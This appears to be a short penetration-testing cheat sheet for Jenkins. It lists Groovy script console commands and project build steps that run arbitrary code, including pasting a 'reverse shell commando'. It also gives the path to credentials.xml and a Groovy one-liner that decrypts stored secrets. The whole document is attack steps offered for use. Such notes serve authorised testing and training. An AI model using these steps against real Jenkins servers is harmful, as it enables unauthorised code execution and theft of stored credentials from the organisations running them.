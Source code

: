 ### Code execution via groovy script <rhost>/script
```
def process = "<command>".execute()
println "Found text ${process.text}"
```

### Code execution via now project
```
create new freestyle project > inside build section > set execute shell > paste reverse shell commando > build now
```

### Code execution via configuration of project
```
open project > configure > paste command > save and built
```

### Password hashes for jenkins
```
<jenkinsHome>/credentials.xml
```

### Decrypt using groovy script console
```
println hudson.util.Secret.decrypt("{<hash>}")
```

